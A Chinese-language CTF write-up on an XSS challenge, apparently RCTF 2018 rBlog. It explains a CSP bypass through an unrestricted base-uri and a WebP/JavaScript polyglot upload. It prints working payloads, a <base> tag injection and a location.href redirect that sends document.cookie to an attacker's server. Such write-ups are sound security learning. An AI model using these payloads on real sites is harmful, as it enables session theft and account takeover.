








非预期解法
0x01 Understanding of functions
- upload blog contents
- report to admin
0x02 Identify the location of the vulnerability
输入任意XSS payload，查看response源代码，XSS vulnerability with title parameter
1 | <h2 class="card-title"><>1</h2> |
0x03 Confirmation of defense mechanism
curl -v 查看Content-Security-Policy(直接看response的头部也可以看到)
1 | Content-Security-Policy: default-src 'none'; script-src 'nonce-720f7efdee4d8940dc71ef5190d6f266'; frame-src https://www.google.com/recaptcha/; style-src 'self' 'unsafe-inline' fonts.googleapis.com; font-src fonts.gstatic.com; img-src 'self' |
解释：
script-src：外部脚本,除了常规值self，none等，
script-src还可以设置一些特殊值。注意，下面这些值都必须放在单引号里面。nonce值：每次HTTP回应给出一个授权token，页面内嵌脚本必须有这个token，才会执行
frame-src：嵌入的外部资源（比如
<frame>、<iframe>、<embed>和<applet>）
- style-src：样式表 除了
script-src选项，nonce值和hash值还可以用在style-src选项，控制页面内嵌的样式表。
CSP中使用了nonce控制js脚本执行，页面中的内嵌脚本，必须有这个token才能执行。了解了上面这些之后，我们就通过下面这种形式下执行script了
1 | <script src="xxx" nonce="5410481c1232221286506caa26259eea"></script> |
1 | <div class="container mt-5"> |
通过上述代码，发现引用了相对路径且CSP中并未限制base-uri。
更简单的方法测试工具

0x04 Expoit
title输入框输入
<base href="http://yourserver/">分析：提交后，相对路径
/assets/js/jquery.min.js脚本的加载将会是http://yourserver/assets/js/jquery.min.js。于是js我们就可控了在yourserver根目录下创建
/assets/js/jquery.min.js, 并在jquery.min.js内写入location.href="http://yourserver/?"+document.cookietitle输好后，点击submit,页面会自动跳转到http://yourserver/?document.cookie，所以走一下burp代理，找到服务器响应的网址如：
http://rblog.2018.teamrois.cn/blog.php/27a43bd6c3e8140b97bb0521b735f1480ee034cd提交给admin

扩展
CSP 的实质就是白名单制度，开发者明确告诉客户端，哪些外部资源可以加载和执行，等同于提供白名单。它的实现和执行全部由浏览器完成，开发者只需提供配置。相关配置详见
base-uri directive restricts the URLs which can be used in a document’s <base> selement. If this value is absent, then any URI is allowed. If this directive is absent, the user agent will use the value in the <base> element.
report-uri：report-uri就用来告诉浏览器，应该把注入行为报告给哪个网址。记得之前pwnhub有道题就是利用这个配置通过日志进行XSS
base tag:
payload积累
1 | var payload = document.cookie; |
呃…，这位大佬的payload似乎有点绕弯子了
理解：这道题的非预期解法就在于作者忽略了default-uri中并未包括base-uri，所以一开始所设置的default-src: none 没有对base-uri起到作用。
预期解法
effect可控，通过burp修改effect值可以控制加载的js文件


于是我们需要上传一张可以作为 js 解析的图片… 接下来的部分是我从未接触过的内容，打起十二分精神TODO…
我们所要关注的是：在这个 docker 起的 php:5-apache 里，无论是/etc/apache2/mods-enabled/mime.conf 还是 /etc/mime.types，都找不到 webp 的身影。所以现在要构造一个 webp + js 的 polyglot，来执行任意 js 代码。
查看了很多资料，我自己制作webp步骤是这样的
将图片长度修改为
2F 2A 00 00即/*填充一些a使图片长度为 10799 (即十六进制的2F 2A 00 00)

在EXIF后面加入payload，同时保持长度依然为10799

payload: RIFF=1;location.href="http://yourserver/?"+document.cookie
Exploit
- submit webp图片，然后获得图片的地址如下
/upload/images/e36ca235c34ec4a0f6d3ae3c66d9f8a8.webp
再次提交并修改effect的值

获得服务器响应 /blog.php/62da8cc59……4a75a30c1fec09f，观察浏览器是否跳转成功，若跳转，则webp中的js被成功执行
将前一步骤中的用户id report给后台机器人, 之后查看自己VPS的日志

扩展
webp：Google于2010年发布的一种图片文件格式。优势：它具有更优的图像数据压缩算法，在拥有肉眼无法识别差异的图像质量前提下，带来更小的图片体积，同时具备了无损和有损的压缩模式、Alpha 透明以及动画的特性，在 JPEG 和 PNG 上的转化效果都非常优秀、稳定和统一。
参考：